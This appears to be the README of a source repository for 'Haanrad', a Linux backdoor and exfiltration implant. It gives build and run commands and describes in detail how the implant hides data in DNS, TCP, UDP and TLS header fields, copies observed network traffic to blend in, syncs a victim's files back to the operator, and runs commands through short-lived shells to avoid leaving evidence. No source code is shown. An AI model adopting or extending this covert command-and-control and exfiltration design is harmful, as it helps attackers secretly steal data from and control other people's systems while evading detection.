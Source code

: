#Haanrad
<b> FULL DISCLOSURE: THIS THING CAN DO BAD THINGS. UNLESS UR A BADMAN OR BATMAN, ITS STRONGLY ADVISED NOT TO BE USED </b>

Haanrad is a backdoor exfiltration system that allows a user to covertly exploit the installed system
haanrad is deployed to. Haanrad can be configured in numerous different ways and is designed to be
tolerant in most systems and adjust to the networks behavior as perceived by the victim machine in order
to "blend in". See the `Features` Section for details on functionality

##Setup

###Prerequisits
You must have cmake and gcc installed along with `libdnet` and `libpcap` development libraries installed in order to compile
Haanrad and the client. Note that Haanrad and the client will only work on the Linux based kernel and possibly some
versions of Mac or BSD

###Installation
Execute the following commands

1. clone the project and `cd` into the project root
2. Execute the following command `cmake .`
3. Then execute `make` if you are on Linux. This will generate all required programs in the project root under the `/bin` folder

###Usage
Run Haanrad with the following command from within the `/bin` folder
```
./haanrad -c <ipofclient> [--DEBUG] [--DOF] [--HINT] [-t <timetick>] [-h <historylength>]
```
The parameters are as follows:

| Parameter | Purpose                                                                                | Required ? | Config File Support ? | Default                          | Example      |
| --------- | -------------------------------------------------------------------------------------- | ---------- | --------------------- | -------------------------------- | ------------ |
| -c        | Give the dot notation IP of the client                                                 | Yes        | Yes                   | N/A                              | -c 127.0.0.1 |
| -t        | Give time cycles of Haanrad in milliseconds, lower values will make Haanrad run faster | No         | Yes                   | 100                              | -t 450       |
| -h        | Set History Length of how many packet Haanrad will store                               | No         | No                    | 100                              | -h 200       |
| --DEBUG   | Get Debug Console Out                                                                  | No         | No                    | Disabled                         | ---DEBUG     |
| --DOF     | Set Haanrad to use default name on rename failure                                      | No         | No                    | Previous name is used on failure | --DOF        |
| --HINT    | Append `-bd` to the name chosen for Haanrad                                            | No         | No                    | Not Appended                     | --HINT       |
 


##Features
* Dynamic Password Generation
* Password Based TLS Authentication & Header Authentication
* Password Based Data Encryption
* Packet Specific Payload Hiding
* Dynamic Network Based Packet Generation
* File Event and File Syncrhonization
* Pesuodo-Shell Functionality
* Infinite Data Transfer

###Dynamic Password Generation
When Haanrad first initiates, it starts in `STARTUP` mode. In this mode, Haanrad only listens for DNS requests leaving
the system. Upon finding a DNS request packet, Haanrad parses out the first domain in the `QUESTION` section of the DNS
header, converts it to a dot notation domain ASCII string and then sends a copy of the packet back to the client whose
IP is set either as a parameter or in the configuration file upon startup. Haanrad only executes this procedure once, thus
the client must be previously ready before Haanrad begins execution on the target machine. After sending the packet,
Haanrad switches to `FULL FUNCTIONALITY` mode and proceeds to fully operate as a backdoor / exfiltration system.

###Password Based TLS Authentication & Header Authentication
Passwords are sent along with every TLS packet to authenticate with Haanrad and with the client system. For DNS, TCP
and UDP packets, specific flags in the TCP, UDP and IP headers are set to identify Haanrad packets. The flags are set
as follows:

| Protocol | Header        | Value                |
| -------- | ------------- | -------------------- |
| TLS      | None          |  Password in payload |
| DNS      | DNS Z Bit     | 1                    |
| TCP      | TCP RES 1 Bit | 1                    |
| UDP      | IP TOS        | 1                    |

###Password Based Data Encryption
Upon acquiring the password from the network. All data sent to and from Haanrad is expected to be encrypted with the password,
ontop of provide authentication as stated previously. In this implementation, Haanrad encrypts all data transferred with
a CaesarCipher and uses the password length as part of or entirely the offset value. The encryption methods are
as follows:

| Protocol | Encryption    | Offset Calculation                       |
| -------- | ------------- | ---------------------------------------- |
| TLS      | CaesarCipher  | Password Length                          |
| DNS      | CaesarCipher  | Password Length                          |
| TCP      | CaesarCipher  | Password Length                          |
| UDP      | CaesarCipher  | Password Length + Destination Port Value |

###Packet Specific Payload Hiding
All payloads are covertly transferred between the client and Haanrad. Depending on the type of packet used though,
specifies the location of where the payload is stored and how much data can be transferred in each packet. The client
always sends TLS packets when communicating with Haanrad so as to ensure the highest reliability in communication to
Haanrad. This is because the TLS packets can carry the largest payload of 35 bytes and are the only packet type
that transports its payload in the body of the packet. The breakdown of TLS and all the other protocols supported
are as follows:

| Protocol | Payload Location               | Payload Max Size |
| -------- | ------------------------------ | ---------------- |
| TLS      | Application Layer Payload      | 35 bytes         |
| DNS      | DNS Id Header                  | 2 bytes          |
| TCP      | TCP Sequence Number Byte 3 & 4 | 2 bytes          |
| UDP      | UDP Source Port Byte 2         | 2 bytes          |

###Dynamic Network Based Packet Generation
In order to best hide the data being sent from Haanrad to the client, Haanrad uses the packets in the network as a
template for the packets it sends. While running in `FULL FUNCTIONALITY` mode, Haanrad listens for incoming packets
from the client. If a packet received is not from the client, Haanrad keeps track of it for later use. Haanrad keeps a
total of the last 100 packets that it has received that failed to be from the client. Whenever Haanrad needs to send
a message back to the client, a number of steps are executed:
1) A tally of the most popular packet type within the 100 collected packets is calculated
2) Then a packet of the most popular type is randomly selected from the 100
3) Depending on its type, it is then altered with the appropriate payload amount, encryption and has its destination IP changed to the client's

At this point the packet is simply sent out of a raw socket, where it then is processed by the network stack and sent to
the client disguised as a network packet. This gives Haanrad a unique upperhand, as it is not limited to running on
specific protocols to transfer data. This means Haanrad will send UDP/DNS data when it sees alot of UDP and DNS data on
the network, and will send TCP/TLS data when it sees alot of TCP and TLS data on the network. Additionaly, the UDP and
TCP options, allow Haanrad to operate on unknown Application Layer protocols. Haanrad for example has been tested to use
packets from Google's QUIC protocol, and ICMP or NTS error packets from the network. Due to this ability, Haanrad is able
to heavily blend in and adapt to most network environments.

###File Event And File Synchronization
When operating the exfiltration functions, Haanrad supports two options: File Event Listening, and File Synchronization. File
Event Listening will simply listen in a directory for any changes. Whenever a change in the directory does occur, a message
will be sent back to the client that it has happend. During File Synchronization, whenever an event occurs on a file, Haanrad
will read the file and transfer its contents to the client. From here the client is designed to emulate the directory 
Haanrad is hosted on within a local `./sync` folder, maintained by the client. This allows the user to view the files
localy from this directory, but also in the same directory format, as it can be found on the exploited system.

###Pseudo-Shell Functionality
The pseudo-shell allows the client to interact with a shell on the system Haanrad is hosted on. From here, the user can view
system directories and settings from system tools. Haanrad at each command generates a new shell instance, so that no evidence
of a command running is visible, after each execution. In order to maintain semi-persistance such as working directory, Haanrad
uses a "pseudo-shell" implementation. Specificaly when entering `cd` commands, Haanrad will change the working directory variable
of itself to emulate that new directory. This allows all future shells to launch in that same directory, emulating the
action of a directory change

###Infinite Data Transfer
Obviously with data limitations in the packets, not all information will fit into a single packet. In order to maintain
some reliability, the client sends all of its commands in a TLS packet. This is strictly to reduce the number of packets
needed. For Haanrad this is not always an option, and most commonly will use TCP and UDP packets to send data back. In order
to do this, multiple packets need to be sent. Haanrad simply implements this by storing a buffer of the current message
being sent and takes of pieces of it as payload for each packet it sends. It continues this cycle until the whole packet
has been sent. Haanrad's sending system is optimized also to only send one message at a time, eventhough multiple requests
may have arrived. Responses are simply queued before placed in the buffer and processed for sending to the client

